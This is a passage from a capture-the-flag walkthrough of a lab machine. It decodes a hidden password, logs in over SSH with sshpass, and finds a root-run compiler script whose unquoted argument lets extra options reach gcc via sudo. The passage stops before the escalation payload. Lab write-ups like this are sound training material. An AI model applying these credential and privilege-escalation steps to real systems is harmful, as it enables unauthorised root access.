 And it contains a password that is created in the for loop. When I use `Python3` to apply the data conversion:
```Python
>> data = b'\x51\x7a\x75\x69\x31\x6f'
>>> password = ''.join(map(lambda b: chr(b-1) , data))
>>> print(f'{password}')
Pyth0n
```
Then I get the `Pyth0pn`.
When I use the `ssh` command with the credentials `loopspell:Pyth0n`:
```shell
$ sshpass -p "Pyth0n" ssh loopspell@192.168.2.32
```
Then I get the `loopspell`'s shell, and I can also read the user flag:

![evidence](./static/12-censored-userflag.png)

## Privilege escalation

When I read the `code_compiler.sh` file in the `home` directory:
```bash
#!/bin/sh
source_code="${1}"
echo "Code is being compiling ..."
/usr/bin/gcc $source_code -o $(mktemp)
echo "You can find your compiled code in /tmp/ directory."
```
And I can notice that the script belongs to the `root` user, when I use the `sudo` command:
```shell
loopspell@ck05:~$ sudo -l
...SNIPPED...
User loopspell may run the following commands on ck05:
    (ALL : ALL) /usr/bin/gcc
    (ALL : ALL) NOPASSWD: /home/loopspell/code_compiler.sh
```
And that means, I can run the script `code_compiler.sh`, and I can do it with `root` privileges without using a password. When I notice that the `gcc` command uses the `$source_code` variable, and that is not surrounded by double quotes or brackets, then I can modify the `gcc` command. When I look [gcc in gtfobins](https://gtfobins.github.io/gtfobins/gcc/):
